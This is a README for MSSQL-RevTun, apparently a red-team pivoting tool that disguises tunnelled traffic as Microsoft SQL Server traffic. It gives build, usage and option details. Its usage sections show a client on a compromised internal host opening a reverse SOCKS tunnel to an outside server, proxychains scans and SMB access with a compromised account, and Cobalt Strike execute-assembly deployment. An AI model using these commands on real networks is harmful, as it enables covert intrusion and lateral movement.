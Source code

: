 # MSSQL-RevTun

MSSQL-RevTun is a tool for network pivoting. It operates similar to chisel, ligolo and ssh tunneling. The main difference is that it uses the Microsoft SQL Server TDS protocol to make the network traffic look like MSSQL traffic.

It operates in 3 modes:
- **Server**: Listens on a port (1433 by default). Once it receives a client connection, it opens another port (1080 by default). Through the second port, we can use proxychains/tun2socks to forward all traffic though the client.
- **Client**: Connects to server or to the relay using authentic MSSQL authentication. Forwards all traffic from the server.
- **Relay**: Relays the traffic from the client to the server. Use case: the client cannot directly reach the external server but can reach the relay machine.

## Building

### Quick Build
```powershell
.\build-multi.ps1  # Builds .NET Framework 4.8, Linux x64, Windows x64
```

### Manual Builds
```bash
# Windows x64
dotnet publish -c Release -f net8.0 -r win-x64 --self-contained true -p:PublishSingleFile=true

# Linux x64  
dotnet publish -c Release -f net8.0 -r linux-x64 --self-contained true -p:PublishSingleFile=true

# Cobalt Strike (.NET Framework 4.8)
dotnet build -c Release -f net48 -p:Platform=AnyCPU
```

## Usage

### Server
```bash
./revtun server --password test123
```

### Client 
```bash
./revtun client --host target-server.com --password test123
```

### Relay (Traffic Forwarding)
```bash
./revtun relay --host target-server.com --debug
```

### Using SOCKS Proxy
```bash
proxychains nmap -sT 192.168.1.0/24
proxychains smbclient -U compromised_user //target.internal.fileserver/Share
```

## C2 Integration (e.g. execute-assembly from Cobalt Strike)

### Deployment
```bash
# Client from internal network  
execute-assembly revtun.exe client --host [internal-compromised-host/external-sql-server] --password test123

# Relay on pivot host
execute-assembly revtun.exe relay --host [external-sql-server] 
```

## Command Options
```
SERVER OPTIONS:
  --port, -p <port>          MSSQL server port (default: 1433)
  --proxy-port <port>        Proxy listener port (default: 1080)
  --bind <address>           Bind address (default: 0.0.0.0)
  --verbose, -v              Enable verbose logging
  --require-encryption       Require TLS encryption for all connections
  --no-encryption            Disable TLS encryption support

CLIENT OPTIONS:
  --host, -h <hostname>      Server hostname (default: localhost)
  --port, -p <port>          Server port (default: 1433)
  --username, -u <user>      SQL username (default: sa)
  --password <pass>          Password for authentication (REQUIRED)
  --database, -d <db>        Database name (default: master)
  --auto-exit                Exit after connection test
  --verbose, -v              Enable verbose logging
  --debug                    Enable debug output (shows all messages)
  --encrypt                  Request TLS encryption (default: enabled)
  --no-encrypt               Disable TLS encryption
  --require-encryption       Require TLS encryption (fail if not supported)

RELAY OPTIONS:
  --port, -p <port>          Relay listener port (default: 1433)
  --bind <address>           Bind address (default: 0.0.0.0)
  --host, -h <hostname>      Target server hostname (default: localhost)
  --server-port <port>       Target server port (default: 1433)
  --verbose, -v              Enable verbose logging
  --debug                    Enable debug output (shows TDS packet details)
```
